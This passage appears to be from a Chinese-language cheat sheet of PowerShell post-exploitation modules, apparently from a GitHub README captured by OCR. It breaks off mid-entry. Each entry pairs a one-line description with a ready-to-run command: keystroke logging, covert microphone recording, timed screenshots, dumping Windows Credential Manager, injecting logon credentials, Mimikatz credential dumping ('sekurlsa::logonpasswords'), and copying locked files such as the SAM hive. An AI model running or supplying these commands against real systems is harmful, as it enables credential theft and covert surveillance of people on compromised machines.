 ```powershell
Get-Keystrokes -LogPath .\1.txt
```

#### Get-MicrophoneAudio
**通过麦克风记录声音**

**示例**

```powershell
Get-MicrophoneAudio -Path .\1.wav -Length 10 
```

#### Get-TimedScreenshot
**屏幕记录**

**示例**

```powershell
Get-TimedScreenshot -Path .\screenshot\ -Interval 10 -EndTime 18:00
```

#### Get-VaultCredential
**从凭证管理器中获取凭证**

**示例**

```powershell
Get-VaultCredential
```

####  Invoke-CredentialInjection
**参考**
>
https://clymb3r.wordpress.com/2013/11/17/injecting-logon-credentials-with-powershell/

**示例**

```powershell
Invoke-CredentialInjection -UserName test -Password 123456 -NewWinLogon
```
#### Invoke-Mimikatz

**示例**

```powershell
Invoke-Mimikatz -DumpCreds
```

执行mimikaz命令

```powershell
invoke-mimikatz -Command "Privilege::Debug Sekurlsa::logonpasswords"
```

#### Invoke-NinjaCopy
某些文件被其他进程占用导致不能复制时，可以尝试用这个脚本来复制（例如想dump SAM文件）
需要管理员权限

**示例**
